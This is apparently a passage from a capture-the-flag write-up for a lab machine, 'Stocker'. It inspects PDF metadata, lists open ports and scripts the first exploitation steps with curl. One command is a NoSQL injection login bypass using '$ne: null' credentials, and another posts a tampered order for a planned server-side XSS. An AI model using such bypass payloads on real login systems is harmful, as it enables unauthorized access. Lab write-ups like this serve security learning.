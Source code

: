 We can also analyse this PDF to get some meta data :

```shell
exiftool /root/Downloads/64621a2cebf9850adf30ea8c.pdf
```

Result:

```text
ExifTool Version Number         : 12.16
File Name                       : 64621a2cebf9850adf30ea8c.pdf
Directory                       : /root/Downloads
File Size                       : 39 KiB
File Modification Date/Time     : 2023:05:15 13:42:46+02:00
File Access Date/Time           : 2023:05:15 13:43:03+02:00
File Inode Change Date/Time     : 2023:05:15 13:42:52+02:00
File Permissions                : rw-rw----
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:05:15 11:40:38+00:00
Modify Date                     : 2023:05:15 11:40:38+00:00
```

So this PDF is generated by Skia/PDF m108. 

From [skia homepage](https://skia.org/docs/user/sample/pdf/), we find this is a graphics library used in the Chrome browser, which has a PDF backend - so probably printing a website to PDF from Chrome.

Since this is a website to PDF print, it should be possible to exploit is as a Server Side XSS.

### Information founds

| port | service | Software/version |
| ---  | ---     | ---              |
| 22   | SSH     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) |
| 80   | HTTP    | nginx 1.18.0 (Ubuntu) |

## Initial access

### Exploitation

We can start by scripting it all : login, cart, order, and get the PDF

```shell
# login, get a cookie session
curl -q -X POST -d  '      
{"username": {"$ne": null}, "password": {"$ne": null} }' http://dev.stocker.htb/login -H 'Content-Type: application/json' --cookie-jar cookies.txt

# We use the Axe product in the cart (from /api/products) :
# {"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0}
curl -q -X POST -H 'Content-Type: application/json' -b cookies.txt -d '{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"My Pwn3d Axe","description":"It s an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}' http://dev.stocker.htb/api/order -o order.txt

# in order .txt, we have the order ID :
# {"success":true,"orderId":"646282deebf9850adf30eab4"}
```